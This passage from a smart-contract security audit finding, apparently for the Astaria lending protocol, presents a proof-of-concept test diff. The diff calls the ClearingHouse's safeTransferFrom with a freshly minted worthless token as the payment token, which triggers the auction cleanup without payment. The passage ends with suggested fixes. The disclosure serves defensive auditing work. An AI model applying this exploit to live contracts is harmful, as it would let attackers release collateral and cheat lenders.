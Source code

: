 ### Proof of concept

To test the scenario, I have modified the testLiquidationNftTransfer test in AstariaTest.t.sol

```diff
diff --git a/src/test/AstariaTest.t.sol b/src/test/AstariaTest.t.sol
index c7ce162..bfaeca6 100644
--- a/src/test/AstariaTest.t.sol
+++ b/src/test/AstariaTest.t.sol
@@ -18,6 +18,7 @@ import "forge-std/Test.sol";
 import {Authority} from "solmate/auth/Auth.sol";
 import {FixedPointMathLib} from "solmate/utils/FixedPointMathLib.sol";
 import {MockERC721} from "solmate/test/utils/mocks/MockERC721.sol";
+import {MockERC20} from "solmate/test/utils/mocks/MockERC20.sol";
 import {
   MultiRolesAuthority
 } from "solmate/auth/authorities/MultiRolesAuthority.sol";
@@ -1030,8 +1031,19 @@ contract AstariaTest is TestHelpers {
       uint8(0)
     );
     vm.stopPrank();
-    uint256 bid = 100 ether;
-    _bid(Bidder(bidder, bidderPK), listedOrder, bid);
+
+    uint256 collateralId = tokenContract.computeId(tokenId);
+    ClearingHouse CH = COLLATERAL_TOKEN.getClearingHouse(collateralId);
+
+    // create a worthless token and send it to the clearinghouse
+    MockERC20 worthlessToken = new MockERC20("TestToken","TST",18);
+    worthlessToken.mint(address(CH),550 ether);
+
+    // call safeTransferFrom on clearinghouse with the worthless token as paymentToken
+    // thiss will trigger the cleaning up after succesful auction
+    uint256 tokenAsInt = uint256(uint160(address(worthlessToken)));
+    bytes memory emptyBytes;
+    CH.safeTransferFrom(address(0),address(bidder),tokenAsInt,0,emptyBytes);

     // assert the bidder received the NFT
     assertEq(nft.ownerOf(tokenId), bidder, "Bidder did not receive NFT");
```

After this, the [assert the bidder received the NFT](https://github.com/code-423n4/2023-01-astaria/blob/1bfc58b42109b839528ab1c21dc9803d663df898/src/test/AstariaTest.t.sol#L1037) test will fail, as the NFT is not moved.
But the state of the CollateralToken and LienToken contracts is updated.

### Tools Used

Manual audit, forge

### Recommended Mitigation Steps

Minimal fix would be to check either check if the supplied paymentToken matches the expected paymentToken, or ignore the parameter alltogether and use the paymentToken from the contract. Other option is to restrict calls to the function to whitelisted addresses (OpenSea controler and conduit ).
